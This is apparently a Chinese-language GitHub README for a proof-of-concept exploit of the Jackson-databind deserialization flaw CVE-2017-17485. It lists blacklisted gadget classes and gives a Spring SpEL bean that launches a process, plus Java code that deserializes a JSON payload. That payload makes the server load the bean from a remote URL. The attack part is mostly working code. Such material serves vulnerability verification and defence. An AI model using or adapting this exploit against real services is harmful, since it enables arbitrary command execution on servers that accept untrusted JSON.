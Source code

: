 # Jackson 反序列化

## 漏洞描述

### CVE-2017-7525
官方在漏洞产生后，通过黑名单的方式禁止黑名单中的第三方库反序列化问题而产生的代码执行漏洞,黑名单是一种不可靠的修复方式，攻击者常常可以通过一些手段绕过黑名单，造成漏洞影响。

黑名单如下：
```
org.apache.commons.collections.functors.InvokerTransformer
org.apache.commons.collections.functors.InstantiateTransformer
org.apache.commons.collections4.functors.InvokerTransformer
org.apache.commons.collections4.functors.InstantiateTransformer
org.codehaus.groovy.runtime.ConvertedClosure
org.codehaus.groovy.runtime.MethodClosure
org.springframework.beans.factory.ObjectFactory
com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl

```
### 新漏洞的产生CVE-2017-17485
在开启enableDefaultTyping()的前提下可以通过Jackson-databind来滥用Spring spel来执行任意命令。

## 漏洞验证

本项目中的war包基于廖师傅 https://github.com/shengqi158/Jackson-databind-RCE-PoC 的改造

基友的 https://github.com/hucheat/vulns/tree/master/cve-2017-17485_web_vuln


#### Spring spel
```
<beans xmlns="http://www.springframework.org/schema/beans"
       xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
       xsi:schemaLocation="
     http://www.springframework.org/schema/beans http://www.springframework.org/schema/beans/spring-beans.xsd">
    <bean id="pb" class="java.lang.ProcessBuilder">
        <constructor-arg value="calc.exe" />
        <property name="whatever" value="#{ pb.start() }"/>
    </bean>
</beans>
```
#### 验证代码
```
package jackson;

import java.io.IOException;

import com.fasterxml.jackson.databind.ObjectMapper;

/**
 * Jackson CVE-2017-17485
 * 2018-01-22
 * @author Bearcat
 *
 */
public class poc {
	public static void payload() {
		/*
		 * 假设是攻击者的恶意JSON请求数据
		 * ["org.springframework.context.support.ClassPathXmlApplicationContext", "http://127.0.0.1/spel.xml"]
		 * 
		 */
		String payload = "[\"org.springframework.context.support.ClassPathXmlApplicationContext\", " +
	                "\"https://raw.githubusercontent.com/iBearcat/Jackson-CVE-2017-17485/master/spel.xml\"]\n";
		System.out.println(payload);
		ObjectMapper mapper = new ObjectMapper();
		mapper.enableDefaultTyping();
		try {
			mapper.readValue(payload, Object.class);
		} catch (IOException e) {
			e.printStackTrace();
		}
	}
	
	public static void main(String args[]) {
		payload();
	}
}
```

![payload](https://raw.githubusercontent.com/iBearcat/Jackson-CVE-2017-17485/master/img/1.jpg)
